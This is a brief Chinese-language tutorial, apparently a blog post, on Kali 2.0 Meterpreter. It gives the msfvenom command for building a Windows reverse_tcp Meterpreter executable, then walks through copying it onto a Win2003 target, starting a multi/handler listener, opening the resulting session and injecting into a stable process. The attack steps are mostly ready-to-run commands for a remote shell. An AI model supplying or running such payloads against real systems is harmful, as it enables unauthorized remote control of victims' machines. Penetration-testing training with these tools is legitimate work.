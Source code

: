 # Kali2.0 Meterpreter 运用

初试牛刀

（1）生产EXE  就用meterpreter (shell 一个含义)  (KALI2.0以前版本 为 msfpayload )2.0后 新命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX LPORT=XXXX -f exe  > 1234.exe
```

![img](https://img-blog.csdnimg.cn/20181125231446382.png)

（2）默认生成地址是 ROOT 查看 后 直接经 物理机 复制进入目标机 WIN2003 

（3）打开之前，监听机 先打开 监听

```
use  exlpoit/multi/handler 
```

![img](https://img-blog.csdnimg.cn/20181125231535591.png)

（4）目标机 打开 EXE 后 发生回话   用 sessions -v 查看

![img](https://img-blog.csdnimg.cn/20181125231609349.png)

（5）选择要的回话窗口  session -i 1 成功进入 meterpreter 

输入 ？  进行试验 ，选定稳定进程注入。